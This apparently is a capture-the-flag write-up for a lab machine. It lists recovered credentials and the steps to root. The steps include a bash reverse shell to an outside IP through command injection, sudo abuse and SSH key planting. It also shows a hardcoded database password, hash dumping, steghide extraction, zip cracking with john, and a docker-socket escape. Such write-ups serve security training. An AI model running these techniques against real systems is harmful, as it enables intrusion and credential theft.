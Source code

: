 # Info
## Credentials
- Anurodh:!d0ntKn0wmYp@ssw0rd
- Apaar
- aurick:masterpassword
- cullapaar:dontaskdonttell


## FTP
- note.txt
	- Get two possible username `Apaar` and `Anurodh`

## Web Server
- `/secret` has command injection with filter

# Path
## User
1. Get `note.txt` from ftp anonymous
2. Found `/secret` has cmdi, then write the script `cmd.py` to test it.
3. Get .php to bypass the filter and get shell 
```
python3 cmd.py "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.9.4.209/13337 0>&1'"
```
4. `www-data` can run sudo as `appar` against `/home/apaar/.helpline.sh`. So use it to become apaar and get user flag
```
www-data$ sudo -l
www-data$ sudo -u apaar /home/apaar/.helpline.sh
AAAA
/bin/bash

apaar$ echo <my public key> >> /home/apaar/.ssh/authorized.keys
$ ssh apaar@10.10.127.60
```
## Root
5. Found MySQL running and there's credential in `/var/www/files/index.php`.
``
   $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```
6. Get the credentials from MySQL (password is md5 hash, according to account.php)
```
mysql> select * from users
    -> ;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```
7. Because the file `/var/www/files/hacker.php` reads `Look into the dark`, so downloads images from `/var/www/files/images` and look into it.
```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase:
wrote extracted data to "backup.zip".
$ /opt/john/run/zip2john backup.zip > backup.john
$ john backup.john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)
```
8. In the source_code.php, we found another password `!d0ntKn0wmYp@ssw0rd`, and it is belong's to anurodh.
9. Run linpeas.sh, and it shows we can write to docker socket.
10. According to GTFOBins, use following command to become root, then get root flag.
```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
``
